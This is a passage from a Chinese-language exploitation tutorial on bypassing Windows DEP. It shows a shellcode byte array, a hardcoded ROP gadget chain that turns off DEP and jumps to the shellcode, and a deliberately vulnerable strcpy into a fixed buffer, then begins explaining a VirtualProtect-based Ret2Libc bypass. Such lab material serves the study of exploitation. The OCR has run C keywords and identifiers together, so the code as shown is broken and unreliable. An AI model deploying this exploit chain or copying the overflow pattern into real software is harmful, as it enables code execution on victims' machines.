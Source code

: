 ```c++
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE9\x77\xBE\x77" //修正 EBP
"\x81\x71\xBA\x7C" //pop eax retn
"\x0A\x1A\xBF\x7C" //pop pop pop retn
"\x3D\x68\xBE\x7C" //pop esi retn
"\xBF\x7D\xC9\x77" //push esp jmp eax
"\x9B\xF4\x87\x7C" //retn 0x30
"\x17\xF5\x96\x7C" //关闭 DEP 代码的起始位置
"\x23\x1E\x1A\x7D" //jmp esp
"\xE9\x27\xFF\xFF" //跳转到 shellcode 起始地址
"\xFF\x90\x90\x90"
;
voidtest()
{
 chartt[176];
 strcpy(tt,shellcode);
}
intmain()
{
 HINSTANCEhInst = LoadLibrary("shell32.dll");
 chartemp[200];
 test();
return 0;
} 
```

#### Ret2Libc 实战之利用 VirtualProtect

在 DEP 的四种工作模式中，Optout 和 AlwaysON 模式下所有进程是默认开启 DEP，这时候如果一个程序自身偶尔需要从堆栈中取指令，则会发生错误。为了解决这个问题微软提供了修改内存属性的 VirtualProtect 函数，该函数位于 kernel32.dll 中，通过该函数用户可以修改指定内存的属性，包括是否可执行属性。因此只要我们在栈帧中布置好合适的参数，并让程序转
入 VirtualProtect 函数执行，就可以将 shellcode 所在内存设置为可执行状态，进而绕过 DEP。

首先我们来看看 MSDN 上对 VirtualProtect 函数的说明。

```c++
BOOL VirtualProtect(
 LPVOID lpAddress,
 DWORD dwSize,
 DWORD flNewProtect,
 PDWORD lpflOldProtect
);
```

各参数的意义为：
- lpAddress，要改变属性的内存起始地址。
- dwSize，要改变属性的内存区域大小。
- flNewProtect，内存新的属性类型，设置为 PAGE_EXECUTE_READWRITE（0x40）时该内存页为可读可写可执行。
- pflOldProtect，内存原始属性类型保存地址。
